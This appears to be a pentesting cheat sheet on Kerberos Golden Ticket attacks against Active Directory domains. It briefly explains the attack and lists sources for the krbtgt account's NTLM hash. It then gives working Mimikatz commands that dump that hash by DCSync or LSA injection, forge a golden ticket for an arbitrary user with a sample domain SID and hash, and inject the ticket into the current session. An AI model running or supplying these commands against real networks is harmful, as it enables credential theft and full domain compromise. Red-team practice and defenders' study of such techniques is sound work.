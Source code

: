 # Golden Tickets

## Brief

<details>

<summary>What is a Golden Ticket Attack ?</summary>

Golden Ticket attacks can be carried out against Active Directory domains, where access control is implemented using **Kerberos** **tickets** issued to authenticated users by a Key Distribution Service(**KDC**).&#x20;

The attacker **gains control** over the **domain’s KDC account** (KRBTGT account) by stealing its NTLM hash. This allows the attacker to generate Ticket Granting Tickets (**TGTs**) for any account in the Active Directory domain.&#x20;

With **valid TGTs**, the attacker can request access to any resource/system on its domain from the Ticket Granting Service (TGS).

[**Understanding Silver / Golden Tickets**](https://en.hackndo.com/kerberos-silver-golden-tickets/)

</details>

**The NTLM hash of the krbtgt account can be obtained via :**

* **DCSync** (Mimikatz)
* **LSA** (Mimikatz)
* **Hashdump** (meterpreter)
* **NTDS.DIT**

## Attack

> The **DCSync** is a Mimikatz feature which will try to impersonate a domain controller and request account password information from the targeted domain controller. This technique is less noisy as it doesn’t require direct access to the domain controller or retrieving the NTDS.DIT file over the network.

```powershell
lsadump::dcsync /user:krbtgt
# Alternatively Mimikatz can retrieve the hash of the krbtgt account from the Local Security Authority (LSA) by executing Mimikatz on the domain controller.
privilege::debug
lsadump::lsa /inject /name:krbtgt
# Now once you get the previously needed information and still in mimikatz :
kerberos::golden /User:random_user /domain:domain.local /sid:S-1-5-21-3737340914-2019594255-2413685307 /krbtgt:d125e4f69c851529045ec95ca80fa37e /id:500 /ptt

# cmd popup!
```
